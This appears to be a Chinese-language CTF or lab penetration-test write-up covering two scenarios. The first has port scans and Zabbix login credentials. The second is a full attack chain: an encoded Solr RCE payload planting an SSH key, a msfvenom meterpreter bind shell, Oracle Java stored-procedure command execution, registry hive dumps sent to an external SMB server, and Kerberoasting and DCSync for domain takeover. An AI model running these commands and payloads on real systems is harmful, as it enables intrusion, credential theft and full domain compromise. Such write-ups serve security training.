





## 场景3

* 192.168.33.55 \(redis写计划任务\) 已经拿flag

* 192.168.33.127

```c
192.168.33.127:22 open
192.168.33.127:111 open
192.168.33.127:80 open
192.168.33.127:3306 open
```

* 192.168.33.149

```c
192.168.33.149:22 open
192.168.33.149:80 open
192.168.33.149:53 open
192.168.33.149:2222 open
```

`curl http://192.168.33.127 -u Admin -p bQqYfe5eqN2CttsV`

http://192.168.33.127/zabbix使用上面的账号密码登录

[【后利用】| zabbix攻击思路总结 | CTF导航 (ctfiot.com)](https://www.ctfiot.com/102266.html)

```python
timeout 1 cat /root/flag
```

按照这个思路即可成功在该机器执行命令获取到第二个flag


## 场景4

第一台8983存在 Apache Solr Velocity模板远程代码执行
往/root/.ssh/authorized_keys里面写入公钥,然后直接ssh 远程登录

```
python2 solr_rce.py http://10.103.105.93:8983/  'bash -c {echo,ZWNobyAnc3NoLXJzYSBBQUFBQjNOemFDMXljMkVBQUFBREFRQUJBQUFCZ1FEZkZCWjhPay81RXYzaTBjWlZLYW9PVlhOZ3cvVXU0aVdFSVpCdmVHM0JDVVVkRmRzdjhaTUZ1eFpmUlpnSWh3NTVwKytmMmo4aGl0V2c3UWJJT3F5Wmw5bjloNjFDMWxpSHBlb21QbVkyVGY1alk3Q0FQYmV2NE9YdkFzSXlrZ04zUiszMlZ6RG83QTAwb2tuT1dFSDl6L2VHd29xR1FBaDhxTnFZalNsVVpCUGw5cjVaZGRVeUFOMGh4Y1M2bmtSTWNwVkJYSk1qdXE5RXNKbjFmMFJWZGQvWmdvVGFFaUdmUXB0VFFNNDVEczhkUUdQNFZEd3JBK2FscmRUeUxLUTBhaXc0YURtcWRjUWdyZi8ybnFFb05DMmZKN1FURkxoVzErV2lwM3VrSksvOW1Pdjh2Z2Zxd3RuTkZyWlpXcmsvWmNSZkRsVWVTd01CcVNJdnBkM0FyKzJPWjNOVUwrbWpZT0FDTnNNWmZERG9GOVcxRmdDYjRmTWNLNDVEVWhVOWxXOGZLUDU0OWEyQ3BWcGxMVm82ekxsaW4xMlVnaUZhNHk1MGJqU1N
IVk5mZUZteVlFNGxFQ2YxM1dybW04Ti9mSnNjcGZGRk0zTUV0QS94L3RBUXZOL2FLMERmcFNGNlc3Z3k1L1JsREFDcUpUZnFFbHM2RnpoNEFLdWpVMk09IGthbGlAMScgPi9yb290Ly
5zc2gvYXV0aG9yaXplZF9rZXlz}|{base64,-d}|{bash,-i}'
```


登录上去之后就在msfconsole进行上线
本地生成个正向马，然后用msf去连接

```
msfvenom -p linux/x64/meterpreter/bind_tcp LHOST=0.0.0.0 LPORT=4444 -f elf -o 4444
```
ifconfig查看到有两张网卡


```
cat .bash_history
```

发现了有个Oracle的登录账号和密码
内网server上刚好有个Oracle
然后就是创建Java函数进行提权
在此之前我们先要搭建个socks5隧道就用我们之前上线的那台Linux做路由节点


先使用sqlplus连接
```
sqlplus system/Zr6kJG2U3m3A7BG@192.168.33.172:1521/orcl
```

创建java函数提权
赋权 

```

begin dbms_java.grant_permission( 'PUBLIC', 'SYS:java.io.FilePermission', '<<ALL FILES>>', 'read,write,execute,delete' );end;  
/  
```
创建java代码  
```
create or replace and compile java source named exe_linux as  
import java.io.BufferedReader;  
import java.io.InputStream;  
import java.io.InputStreamReader;  
import java.net.UnknownHostException;  
public class Test  
{  
public static String list_cmd(String str){  
    Runtime runtime=Runtime.getRuntime();  
  StringBuffer enco = new StringBuffer();  
  enco.append("GBK");  
  try{  
  Process proc =runtime.exec(str);  
  InputStream inp_suc=proc.getInputStream();  
  InputStream inp_err=proc.getErrorStream();  
  BufferedReader bfr_err = new BufferedReader(new InputStreamReader(inp_err,enco.toString()));  
  BufferedReader bfr_suc = new BufferedReader(new InputStreamReader(inp_suc,enco.toString()));  
    String strLine;  
      while( (strLine=(bfr_suc.readLine())) != null){  
       
      System.out.println(strLine);  
          }  
  while( (strLine=(bfr_err.readLine())) != null){  
       
    System.out.println(strLine);  
    }  
        proc.destroy();  
        inp_suc.close();  
        inp_err.close();  
    }catch (Exception e) {  
      System.out.println("EXECUTE IS ERROR!");  
      System.out.println(e.getMessage());  
    }  
    return "";  
  }  
       
  /* public static void main(String[] args){  
       
      list_cmd(args[0]);  
    }  
    **/  
}  
  
/
```
创建存储过程
```
create or replace procedure p_exe_linux(str varchar2) as language java  
name 'Test.list_cmd(java.lang.String)';  
/  
```
命令执行
```
SET SERVEROUTPUT ON  
exec dbms_java.set_output(1111111111111);  
EXEC P_EXE_LINUX('whoami');
```

是个系统权限
到这里我想添加管理员用户，结果发现
net user 添加不上，于是就大胆猜测目标环境上存在杀软
现在必须要把它关了抓取hash才能进行下一步的操作，或者说制作免杀的木马，这里成本太高了准备上手去关
测试发现reg导出hash没做限制，利用这个导出功能,把文件放到本地来还原出NTLM
思路就是公网搭建samba服务器，在Linux上做端口转发，用copy把文件传到公网服务器上
导出hash
```
SQL> EXEC P_EXE_LINUX('cmd.exe /c reg save HKLM\SYSTEM system.save');

PL/SQL procedure successfully completed.

SQL> EXEC P_EXE_LINUX('cmd.exe /c reg save HKLM\SAM sam.save');

PL/SQL procedure successfully completed.

SQL> EXEC P_EXE_LINUX('cmd.exe /c reg save HKLM\SECURITY security.save');

PL/SQL procedure successfully completed.
SQL> EXEC P_EXE_LINUX('cmd.exe /c dir');
Volume in drive C has no label.
Volume Serial Number is CECB-BD93
Directory of C:\app\Administrator\product\11.2.0\dbhome_1\DATABASE
05/23/2023  10:18 AM    <DIR>          .
05/07/2023  04:58 AM    <DIR>          ..
05/07/2023  04:51 AM    <DIR>          archive
05/07/2023  04:52 AM             2,048 hc_orcl.dat
12/22/2005  05:07 AM            31,744 oradba.exe
05/23/2023  09:50 AM             1,176 oradim.log
05/12/2023  02:28 AM             1,536 PWDorcl.ora
05/23/2023  10:18 AM            77,824 sam.save
05/23/2023  10:18 AM            28,672 security.save
05/23/2023  09:50 AM             2,560 SPFILEORCL.ORA
05/23/2023  10:17 AM        16,474,112 system.save
8 File(s)     16,619,672 bytes
3 Dir(s)  119,370,903,552 bytes free

PL/SQL procedure successfully completed.
```
copy出来之后用impacket-secretsdump提取hash
远程登录上去之后发现了server$的域内机器账户，然后利用这个机器账户获取Dbadmin的SPN
可以用他的SPN请求TGS
然后拿到本地来爆破，可以得到Dbadmin的密码
然后这个Dbadmin具有DCSync的权限
能直接用impacket-secretsdump 去到出域控hash
最后成功拿到域控flag